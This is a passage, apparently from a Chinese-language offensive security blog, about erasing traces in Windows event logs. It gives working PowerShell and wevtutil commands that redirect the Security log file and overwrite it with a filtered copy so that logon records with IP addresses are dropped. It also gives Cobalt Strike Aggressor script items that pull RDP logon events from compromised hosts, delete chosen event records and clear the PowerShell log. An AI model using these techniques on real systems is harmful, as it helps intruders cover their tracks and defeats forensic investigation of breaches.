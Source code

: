     Set-Itemproperty -path 'Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\eventlog\Security' -Name 'File' -value $SecurityFileRegValueFileName

    net start eventlog
同理批量删除如下：

    # clear
    Try {
       wevtutil epl Security $SecurityFileRegValueNew /q:"*[EventData[(Data[@Name='IpAddress']!='')]]" /ow:true
    }
    Catch {}
三：脚本化
结合Cobalt Strike可实现自动化，具体可参考cna脚本编写

取证示例：

         item "RdpSuccessEvent" {
          local('$bid');
          foreach $bid ($1){
              blog($1, "<li> Get RDP Success Event (4624).");
              bpowershell($bid,"wevtutil epl Security ./Sec.evtx");
              bpowershell_import($bid, script_resource("./powershell/WinSuccEvent.ps1"));
              bpowerpick($bid,"WinSuccEvent");
              #bpowershell($bid,"WinSuccEvent");
              brm($1,"Sec.evtx");
              bpowershell($bid,"wevtutil cl \"Windows PowerShell\"");
          }
         }
清除示例：

         item "IDEventClear" {
          prompt_text("Input Clear EventRecordID","1024",lambda({
              blog(@ids,"Delete Security Event where EventRecordID = $1");
              bpowershell_import(@ids, script_resource("./powershell/IDEventClear.ps1"));
              bpowerpick(@ids,"IDEventClear $1");
              bpowershell(@ids,"wevtutil cl \"Windows PowerShell\"");
          },@ids => $1));
         }
参考
https://3gstudent.github.io/

https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/wevtutil
